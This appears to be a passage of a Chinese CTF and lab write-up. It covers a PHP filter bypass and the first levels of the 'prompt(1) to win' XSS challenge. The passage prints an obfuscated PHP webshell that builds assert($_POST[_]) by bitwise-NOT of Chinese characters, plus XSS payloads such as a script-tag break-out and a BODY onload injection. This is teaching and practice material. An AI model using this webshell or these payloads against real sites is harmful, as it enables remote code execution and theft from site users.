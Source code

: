 ![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210813182603302.png)

异或也没了，那只能取反了，这里直接给poc。

```php
<?php
$__=[];
$_=($__==$__); // 1
$__=~(融); // a
$___=$__[$_];
$__=~(匆); // s
$___.=$__[$_].$__[$_];
$__=~(随); // e
$___.=$__[$_];
$__=~(千); // r
$___.=$__[$_];
$__=~(苦); // t
$___.=$__[$_];
$____=~(~(_)); // _
$__=~(诗); // P
$____.=$__[$_];
$__=~(尘); // O
$____.=$__[$_];
$__=~(欣); // S
$____.=$__[$_];
$__=~(站); // T
$____.=$__[$_];
$_=$$____;
$___($_[_]); // assert($_POST[_])
```

上传后在phpinfo的环境变量里可以看到flag。

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210813190419027.png)

## prompt(1) to win - XSS靶场练习

------

### 0x0

第一关没过滤东西，只需要闭合一下前面的__\"__就行了。

> \"\>\<script\>prompt(1)\</script\>

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210814131959530.png)

------

### 0x1

对于过滤__<__和__>__中的内容时，可以使用\<BODY标签进行绕过`<BODY onload="prompt(1)"`
